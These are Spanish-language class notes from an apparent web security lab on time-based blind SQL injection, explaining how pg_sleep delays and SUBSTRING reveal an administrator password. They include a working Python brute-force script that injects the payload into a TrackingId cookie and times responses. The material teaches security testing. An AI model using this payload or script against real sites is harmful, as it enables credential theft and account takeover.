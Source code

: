 En esta clase damos continuidad al proceso de explotación visto anteriormente, en el que empleamos una inyección SQL ciega con retardos temporales (**pg_sleep**) para filtrar información sensible sin respuestas visibles del servidor.

Partimos desde el punto en el que ya conocemos la longitud de la contraseña del usuario ‘**administrator**‘. Ahora nos centramos en automatizar por completo la recuperación del valor de cada carácter que la compone, utilizando Burp Intruder para iterar de forma sistemática por todas las posiciones y valores posibles (letras minúsculas y números).

Se configura un ataque por cada posición de la contraseña, adaptando la consulta con ‘**SUBSTRING(password, n, 1)**‘ y analizando el retardo en la respuesta para identificar el carácter correcto. Cada vez que se produce una demora significativa (≈10 segundos), se confirma que el carácter probado es el correcto.

Repetimos el proceso hasta reconstruir completamente la contraseña, cerrando el ejercicio con el acceso exitoso a la cuenta del administrador.

Script
![Pasted image 20250704124641.png](imagenes/Pasted image 20250704124641.png)
![Pasted image 20250704125451.png](imagenes/Pasted image 20250704125451.png)
Script

#!/usr/bin/env python3 
from pwn import *
from termcolor import colored

import requests
import signal
import sys
import string

def def_handler(sig, frame):
    p1.failure("Ataque de fuerza bruta detenido") 
    print(colored(f"\n[!] Saliendo...\n", 'red')) 
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 
p1 = log.progress("SQLI")

def makeSQLI():

    password = ""

    p1.status("Iniciando ataque de fuerza bruta") 
    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                'TrackingId': f"test'%3b select case when(username='administrator' and substring(password, {position},1)='{character}') then pg_sleep(3) else pg_sleep(0) end from users-- -",
                'session': "0Vj8dxoJmIzQF8MyDtjXuHORoz7NTXNZ"
            }

            p1.status(cookies["TrackingId"])

            time_start = time.time()

            r = requests.get("https://0a3e00d004218e53801a35c3000300be.web-security-academy.net", cookies=cookies)
            
            time_end = time.time()

            if time_end - time_start > 3:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    makeSQLI()

![Pasted image 20250704131955.png](imagenes/Pasted image 20250704131955.png)
En mysql
![Pasted image 20250704132254.png](imagenes/Pasted image 20250704132254.png)
